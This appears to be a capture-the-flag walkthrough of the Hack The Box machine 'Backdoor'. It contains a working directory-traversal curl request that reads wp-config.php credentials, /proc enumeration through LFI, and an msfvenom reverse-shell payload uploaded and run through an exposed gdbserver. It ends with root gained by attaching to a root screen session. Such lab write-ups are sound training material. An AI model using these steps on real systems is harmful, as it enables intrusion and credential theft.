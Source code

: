 ```yaml
---
description: https://app.hackthebox.com/machines/Backdoor
---
```


# Backdoor

## Nmap

```
nmap 10.10.11.125 -p- -sS -sV         

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
Add "10.10.11.125 backdoor.htb" to /etc/hosts.
{% endhint %}

First up, checking port 1337 which `nmap` pick up as waste?. I was unable to pull any information from this service.

Connecting with `nc` did not send back any information. The same process repeated with `Wireshark` also showed no information from this port.

![](<../../../.gitbook/assets/image (360).png>)

As such we will proceed to port 80 which, appears to be running `Wordpress` as shown below:

![](<../../../.gitbook/assets/image (190).png>)

Standard enumeration with `feroxbuster` shows multiple typical WordPress `PHP` files.

![](<../../../.gitbook/assets/image (291).png>)

Instead we jump over to `wpscan` in order to further enumerate the WordPress site. The following command was run to search all available plugins for known exploits.

```bash
wpscan --url http://backdoor.htb -t 40 --detection-mode mixed --enumerate ap --plugins-detection aggressive
```

`wpscan` soon finds the vulnerable plugin `ebook-download` which is running version 1.1.

![](<../../../.gitbook/assets/image (256).png>)

`Searchsploit` shows a known exploit for eBook Download 1.1 for Directory Traversal.

![](<../../../.gitbook/assets/image (1087).png>)

**Exploit-DB:** [https://www.exploit-db.com/exploits/39575](https://www.exploit-db.com/exploits/39575)

With the following shown as a PoC:

```bash
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

Testing this against the target system's WordPress site proves successful. We are able to read `/wp-settings.php`.

```bash
curl "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php"
```

![](<../../../.gitbook/assets/image (219).png>)

As shown above, this reveals the DB\_Password value. I tried to use this against the _admin_ account and the _wordpressuser_ account and was unable to proceed through either the login page or SSH against standard accounts.

From here, further enumeration through `LFI` will be required. I started `ZAP Proxy` and sent a manual request through with the Directory Traversal PoC.

![](<../../../.gitbook/assets/image (52).png>)

We get some interesting `LFI` results, however none that are of any use to us.

![](<../../../.gitbook/assets/image (1260).png>)

After much further enumeration I decided to search for running processes and their corresponding command lines. This is usually found under `/proc/PID/cmdline`. Where below the request will start with '1' and then, a number file through to 1000 will be generated using the 'numberzz' module in `ZAP Proxy`.

![](<../../../.gitbook/assets/image (359).png>)

As shown below PID 816 shows `gdbserver` running on pot 1337 which we did not get any results for earlier.

![](<../../../.gitbook/assets/image (129).png>)

`Searchsploit` shows this could be vulnerable to `RCE`.

![](<../../../.gitbook/assets/image (285).png>)

BookHackTricks has a great page on a few ways to exploit `gdbserver`.

**BookHackTricks:** [https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver#upload-and-execute](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver#upload-and-execute)

```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.11.125:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run
```

![](<../../../.gitbook/assets/image (167).png>)

Where a shell is caught on our listener.

![](<../../../.gitbook/assets/image (1688).png>)

{% hint style="info" %}
Metasploit can also be used to exploit gdbserver.

use exploit/multi/gdb/gdb\_server\_exec
{% endhint %}

Performing enumeration with `linpeas.sh` we have an interesting find pop up under the running processes and crons section.

![](<../../../.gitbook/assets/image (29) (1).png>)

Looking at the above parameters we can see the from the screen help output below, that `-dmS` is used to start a screen daemon then disconnect it. In the case of above as root.

![](<../../../.gitbook/assets/image (414).png>)

The manual for screen can be found below: [https://www.gnu.org/software/screen/manual/screen.html](https://www.gnu.org/software/screen/manual/screen.html)

The linked forum post on Serverfault shows how we can identify existing screen sessions.

**Serverfault:** [https://serverfault.com/questions/758637/owner-of-screen-session](https://serverfault.com/questions/758637/owner-of-screen-session)

![](<../../../.gitbook/assets/image (362).png>)

Looking further on how to connect to other users screen sessions, this forum post from 2006 describes it well: [https://ubuntuforums.org/showthread.php?t=299286](https://ubuntuforums.org/showthread.php?t=299286)

![](<../../../.gitbook/assets/image (148).png>)

As we know the root user account is currently running a screen session we can then connect to it. We know the session name from the running processes we found from `linpeas.sh`.

```bash
screen -x "<host_username>/<sessionname>"
/var/run/screen -x root/root
```

Which gets us a `root` shell.

![](<../../../.gitbook/assets/image (126) (2).png>)
